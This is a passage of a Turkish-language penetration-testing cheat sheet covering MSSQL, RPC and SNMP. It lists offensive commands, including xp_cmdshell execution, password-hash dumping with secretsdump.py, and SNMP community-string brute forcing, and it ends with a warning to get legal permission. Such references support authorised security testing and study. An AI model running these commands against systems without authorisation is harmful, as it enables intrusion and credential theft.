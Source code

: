 ### Gelişmiş Exploitation
**xp_cmdshell Exploiti:**
```sql
EXEC xp_cmdshell 'whoami';
```
**SQL Enjeksiyonu ile Veri Çalma:**
```sql
SELECT * FROM openquery(linkedserver, 'SELECT data FROM table');
```

---

## 11. Remote Procedure Call (RPC)
### Gelişmiş Enumeration
**RPC Servislerini Listeleme:**
```bash
rpcdump.py <hedef-ip>
```
**Ayrıcalık Seviyelerini Kontrol Etme:**
```bash
rpcclient -U "<kullanıcı-adı>%<şifre>" <hedef-ip>
> querydominfo
```

### Gelişmiş Exploitation
**RPC ile Parola Dökme:**
```bash
secretsdump.py <kullanıcı-adı>:<şifre>@<hedef-ip>
```

---

## 12. Simple Network Management Protocol (SNMP)
### Gelişmiş Enumeration
**Tüm MIB Ağacını Dökme:**
```bash
snmpwalk -v 2c -c public <hedef-ip> .1
```
**SNMPv3 Yanlış Yapılandırmalarını Kontrol Etme:**
```bash
snmp-check <hedef-ip>
```

### Gelişmiş Exploitation
**Community String Saldırısı:**
```bash
onesixtyone -c community.txt <hedef-ip>
```
**SNMP Relay Saldırısı:**
```bash
snmp-relay.py -t <hedef-ip>
```

---

Bu teknikleri kullanmadan önce yasal izinleriniz olduğundan emin olun. Yetkisiz faaliyetler ciddi cezalara neden olabilir.
